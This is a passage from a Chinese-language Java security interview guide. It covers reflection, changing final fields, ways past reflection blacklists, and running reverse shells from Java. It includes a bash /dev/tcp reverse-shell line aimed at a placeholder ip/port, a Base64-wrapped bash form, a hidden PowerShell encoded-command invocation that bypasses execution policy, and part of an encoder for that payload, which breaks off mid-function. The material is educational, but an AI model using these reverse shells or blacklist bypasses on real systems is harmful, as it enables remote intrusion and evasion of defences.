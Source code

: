 ## JDK

### Java反射做了什么事情（★）

反射是根据字节码获得类信息或调用方法。从开发者角度来讲，反射最大的意义是提高程序的灵活性。Java本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果



### Java反射可以修改Final字段嘛（★★）

可以做到，参考以下代码

```java
field.setAccessible(true);
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
field.set(null, newValue);
```



### 传统的反射方法加入黑名单怎么绕（★★★）

可以使用的类和方法如下（参考三梦师傅）

```java
ReflectUtil.forName
BytecodeDescriptor
ClassLoader.loadClass
sun.reflect.misc.MethodUtil
sun.reflect.misc.FieldUtil
sun.reflect.misc.ConstructorUtil
MethodAccessor.invoke
JSClassLoader.invoke
JSClassLoader.newInstance
```



### Java中可以执行反弹shell的命令吗（★★）

可以执行，但需要对命令进行特殊处理。例如直接执行这样的命令：`bash -i >& /dev/tcp/ip/port 0>&1`会失败，简单来说因为`>`符号是重定向，如果命令中包含输入输出重定向和管道符，只有在`bash`下才可以，使用Java执行这样的命令会失败，所以需要加入`Base64`

```shell
bash -c {echo,base64的payload}|{base64,-d}|{bash,-i}
```

针对`Powershell`应该使用以下的命令

```shell
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的Base64
```

这个特殊的Base64和普通Base64不同，需要填充0，算法如下

```java
public static String getPowershellCommand(String cmd) {
    char[] chars = cmd.toCharArray();
    List<Byte> temp = new ArrayList<>();
    for (char c : chars) {
        byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
        for (byte b : code) {
            temp.add(b);
        }
        temp.add((byte) 0);
    }
    byte[] result = new byte[temp.size()];
    for (int i = 0; i < temp.size(); i++) {
        result[i] = temp.get(i);
```